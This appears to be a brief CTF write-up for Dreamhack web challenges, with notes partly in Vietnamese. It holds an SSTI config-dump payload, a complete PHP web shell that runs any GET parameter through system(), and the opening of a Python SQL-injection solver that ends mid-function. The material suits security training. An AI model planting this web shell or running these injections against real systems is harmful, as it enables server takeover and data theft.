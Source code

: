 ### simple ssti
```{{config.items()}}```
### Command Injection Advanced
- dùng curl down file rồi chiếm shell 
```php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
</html>
```
### simple_sqli
Nhắc lại lần nữa "toi là vua sqli" oke ?
```py
import requests
import sys

from urllib.parse import urljoin


class Solver:
    """Solver for simple_SQLi challenge"""
    
    
    # initialization
    def __init__(self, port: str) -> None:
        self._chall_url = f"http://host3.dreamhack.games:{port}"
        self._login_url = urljoin(self._chall_url, "login")
    
    
    # base HTTP methods
    def _login(self, userid: str, userpassword: str) -> requests.Response:
        login_data = {
            "userid": userid,
            "userpassword": userpassword
        }
        
        resp = requests.post(self._login_url, data=login_data)
        return resp
    
    
    # base sqli methods
    def _sqli(self, query: str) -> requests.Response:
        resp = self._login(f"\" or {query}-- ", "hi")
        return resp
        
        
    def _sqli_lt_binsearch(self, query_tmpl: str, low: int, high: int) -> int:
        while 1:
            mid = (low+high) // 2
            
            if low+1 >= high:
```